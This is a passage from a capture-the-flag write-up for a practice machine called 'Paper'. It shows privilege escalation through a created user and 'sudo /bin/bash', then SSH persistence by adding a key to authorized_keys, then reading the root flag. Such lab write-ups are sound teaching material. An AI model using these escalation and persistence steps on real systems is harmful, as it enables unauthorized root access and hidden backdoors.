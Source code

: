 Finally, we can impersonate our new user:

```sh
[dwight@paper ~]$ su - "dummy"
```

```
[dummy@paper dwight]$
```

And then we can get a shell as `root`:

```sh
[dummy@paper dwight]$ sudo "/bin/bash"
```

```
[root@paper dummy]#
```

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder contains a `.ssh` folder. There's no existing private key, so
I'll create one, and I'll add the corresponding public key to `authorized_keys`.
Finally, I'll connect over SSH to Paper as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
[root@paper ~]# cat "/root/root.txt"
```

```
163d766cda80e3c5639fd6a2d95ec973
```

# Afterwords
